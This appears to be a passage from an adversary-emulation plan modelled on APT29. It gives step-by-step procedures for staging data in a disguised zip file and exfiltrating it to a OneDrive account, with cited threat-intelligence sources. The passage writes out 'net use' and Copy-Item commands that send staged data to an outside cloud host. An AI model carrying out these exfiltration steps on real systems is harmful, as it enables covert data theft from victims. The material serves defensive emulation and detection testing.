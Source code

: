 #### 17.C - Obfuscated Files or Information ([T1027](https://attack.mitre.org/techniques/T1027/))

1.  Load `stepSeventeen_zip.ps1`
2.  Execute `zip C:\Windows\Temp\WindowsParentalControlMigration.tmp C:\Windows\Temp\WindowsParentalControlMigration`

### Cited Intelligence

* Open Invitation Contributors: Kaspersky, Microsoft

* APT29 has used the legit Microsoft DLL and PowerShell to interact with Exchange Web Services (EWS) for email theft.<sup> [7](https://www.fireeye.com/blog/products-and-services/2019/02/state-of-the-hack-no-easy-breach-revisited.html) </sup>

* POSHSPY can appended a file signature header to all encrypted data prior to upload or download.<sup> [10](https://www.fireeye.com/blog/threat-research/2017/03/dissecting_one_ofap.html) </sup>

---

## Step 18 - Exfiltration

The attacker maps a local drive to an online web service account ([T1102](https://attack.mitre.org/techniques/T1102/)) then exfiltrates the previous staged data to this repository ([T1048](https://attack.mitre.org/versions/v6/techniques/T1048/) / [T1567.002](https://attack.mitre.org/techniques/T567/002/)).

### Procedures

#### 18.A - Exfiltration Over Alternative Protocol ([T1048](https://attack.mitre.org/versions/v6/techniques/T1048/) / [T1567.002](https://attack.mitre.org/techniques/T567/002/))

1. Get CID for OneDrive account (https://www.laptopmag.com/articles/map-onedrive-network-drive)
2. Execute `net use y: https://d.docs.live.net/[CID] /user:[OneDrive account]@outlook.com "[OneDrive password]"`
3. Execute `Copy-Item "C:\Windows\Temp\WindowsParentalControlMigration.tmp" -Destination "Y:\WindowsParentalControlMigration.tmp"`
4. Login to https://onedrive.live.com/?id=root&cid=[CID] to see exfil (`WindowsParentalControlMigration.tmp`)

### Cited Intelligence

* Open Invitation Contributors: Kaspersky, Microsoft, SentinelOne

* CloudDuke can use a Microsoft OneDrive to exchange stolen data with its operators.<sup> [1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf),[5](https://www.slideshare.net/MatthewDunwoody1/no-easy-breach-derby-con-2016) </sup>

---

## Step 19 - Clean Up
